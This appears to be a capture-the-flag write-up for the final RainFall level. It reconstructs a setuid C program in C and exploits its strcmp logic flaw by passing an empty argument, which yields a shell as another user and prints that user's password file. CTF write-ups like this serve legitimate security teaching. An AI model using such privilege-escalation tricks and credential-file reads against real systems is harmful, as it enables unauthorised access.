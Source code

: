 # bonus3

This one is funny. I won't include any x86 ASM but directly the reconstruction in C of the program since it do not involve any kind of vulnerability. This is just a mind game :

```c
int __cdecl main(int argc, const char **argv)
{
  char buffer[132];
  FILE *fp;

  fp = fopen("/home/user/end/.pass", "r");
  memset(buffer, 0, sizeof(ptr));
  if ( !fp || argc != 2 )
    return -1;
  fread(buffer, 1u, 0x42u, fp);
  buffer[65] = 0;
  buffer[atoi(argv[1])] = 0;
  fread(&buffer[66], 1u, 0x41u, fp);
  fclose(fp);
  if ( strcmp(buffer, argv[1]) == 0 )
    execl("/bin/sh", "sh", 0);
  else
    puts(&buffer[66]);
  return 0;
}
```

This program takes a sole argument. This argument is then converted to an integer with `atoi` and is used as an index into `buffer` to write a **NUL byte**.

This is absolutly useless because the last fread encountered an **EOF**. This does not write anything into the buffer :

```c
fread(&buffer[66], 1u, 0x41u, fp);
fclose(fp);
```

Then, the program checks if the buffer and the argument are lexicographically equal by using `strcmp`, if it is, we have our shell.

My initial approach was to try to bruteforce. But this would yield to astronomical numbers of test cases : `16 ^ 99`.

This is much simpler : two empty string are equals.

If an empty string is passed to `atoi`, it returns 0, thus leading to `buffer` being an empty string. It would mean that `argv[1]` is also an empty string. So the `strcmp` check will pass ! 

```
bonus3@RainFall:~$ ./bonus3 "$(python -c 'print("\x00")')"
$ whoami
end
$ cd ../end
$ cat .pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```

This last flag concludes the Rainfall CTF Challenge !
